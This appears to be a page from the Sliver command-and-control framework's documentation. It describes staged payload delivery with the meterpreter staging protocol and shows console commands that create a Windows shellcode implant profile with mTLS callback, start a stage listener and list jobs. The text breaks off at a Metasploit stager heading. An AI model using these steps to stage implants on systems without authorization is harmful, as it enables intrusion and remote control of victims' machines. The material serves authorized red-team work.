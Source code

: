 **️ Important:** You must have MinGW installed on your Sliver server to get some staged (e.g., Windows DLLs) payloads to work.

## Overview

As payloads can be pretty big (around 10MB), you may sometime require the use of stagers to execute your implant on a target system.

Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:

- read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory

For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example

Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `profiles new` command.
The following command creates a new profile that we will use for our staging listener:

```
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode

[*] Saved new profile win-shellcode

sliver > profiles

Name Platform Command & Control Debug Format Obfuscation Limitations
==== ======== ================= ===== ====== =========== ===========
win-shellcode windows/amd64 [1] mtls/192.168.122.1:8888 false SHELLCODE enabled
```

We can now create a staging listener and link it to the profile:

```
sliver > stage-listener --url http/192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID Name Protocol Port
== ==== ======== ====
1 http tcp 1234
2 mtls tcp 8888
```

### Metasploit: Bring Your Own Stager
